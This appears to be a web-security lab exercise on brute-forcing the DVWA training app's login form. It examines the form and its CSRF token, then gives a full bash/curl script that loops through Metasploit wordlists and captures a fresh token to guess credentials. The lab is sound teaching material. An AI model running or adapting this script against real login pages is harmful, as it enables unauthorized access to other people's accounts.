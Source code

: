 # LAB SEC-WEB: DVWA - Brute-Force LOGIN


> dvwa: a web-application with user-login


## 1. learning objective: 

> Simulate Login Form with a bash script and curl command to get login access (user and password)


## the login-page: see and study

* view-source:http://localhost/login.php

~~~
<form action="login.php" method="post">
	<fieldset>
			<label for="user">Username</label> <input type="text" class="loginInput" size="20" name="username"><br />
			<label for="pass">Password</label> <input type="password" class="loginInput" AUTOCOMPLETE="off" size="20" name="password"><br />
			<br />
			<p class="submit"><input type="submit" value="Login" name="Login"></p>
	</fieldset>
	<input type='hidden' name='user_token' value='19ddb03bef544c60a0ba98457d9e5be8' />

	</form>
~~~

please note:
* method="post"
* name=username
* name=password
* user_token=19ddb03bef544c60a0ba98457d9e5be8

## every reload of login.php generates a new user_token
* with `curl -s -c dvwa.cookie "localhost/login.php" | grep  -P '[0-9a-f]{32}' | cut -d "'" -f6` you can get this user_token

## make an invalid login and note the answer (http-header or http-body)
* **Login failed**

## make a valid login and note the answer (http-header or http-body)
* **Location: index.php**


## test this bash-script (maybe adapt some variables)
* $? holds the return-value of the previous command
* curl -b

~~~
#!/bin/bash
# Quick PoC template for HTTP POST form brute force, with anti-CRSF token
# Target: DVWA v1.10
#   Date: 2015-10-19
# Author: g0tmi1k ~ https://blog.g0tmi1k.com/
# Source: https://blog.g0tmi1k.com/dvwa/login/

# view changes by ahofa, 2018

## Variables
URL="http://localhost"
### USER_LIST="/usr/share/seclists/Usernames/top_shortlist.txt"
### PASS_LIST="/usr/share/seclists/Passwords/rockyou.txt"
USER_LIST="/usr/share/metasploit-framework/data/wordlists/unix_users.txt"
PASS_LIST="/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt"

## Value to look for in response (Whitelisting)
SUCCESS="Location: index.php"

## Anti CSRF token
CSRF="$( curl -s -c /tmp/dvwa.cookie "${URL}/login.php" | grep  -P '[0-9a-fA-F]{32}' | cut -d "'" -f6 )"
### -c store cookies
### -s silten
### -P [0-9a-fA-F]{32}    regex Perl : 32 hex digits
### cut 6. field (contains the 32 hex digits

[[ "$?" -ne 0 ]] && echo -e '\n[!] Issue connecting! #1' && exit 1

## Counter
i=0

## Password loop
while read -r _PASS; do

  ## Username loop
  while read -r _USER; do

    ## Increase counter
    ((i=i+1))

    ## Feedback for user
    echo "[i] Try ${i}: ${_USER} // ${_PASS}"

    ## Connect to server
    REQUEST="$( curl -s -i -b /tmp/dvwa.cookie --data "username=${_USER}&password=${_PASS}&user_token=${CSRF}&Login=Login" "${URL}/login.php" )"
    [[ $? -ne 0 ]] && echo -e '\n[!] Issue connecting! #2'

    ## Check response
    echo "${REQUEST}" | grep -q "${SUCCESS}"
    if [[ "$?" -eq 0 ]]; then
      ## Success!
      echo -e "\n\n[i] Found!"
      echo "[i] Username: ${_USER}"
      echo "[i] Password: ${_PASS}"
      break 2
    fi

  done < ${USER_LIST}
done < ${PASS_LIST}

## Clean up
rm -f /tmp/dvwa.cookie
~~~

